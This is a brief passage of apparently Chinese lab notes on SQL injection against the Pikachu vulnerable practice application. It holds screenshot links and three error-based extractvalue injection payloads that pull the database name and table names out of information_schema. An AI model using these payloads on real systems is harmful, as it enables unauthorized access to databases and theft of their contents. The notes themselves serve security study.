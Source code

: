 #### **insert型注入**

![image-20220206205311630](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120316.png)

![image-20220206205337892](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120998.png)

#### **报错注入 extractvalue**

```
爆库
123'and extractvalue(1,concat(0x7e,(select database()),0x7e)) or '
爆表
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='pikachu' limit+0,1),0x7e)) or'	//前面32位
1' and extractvalue(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema='pikachu' limit 0,1),32),0x7e)) or'		//最后几位
```
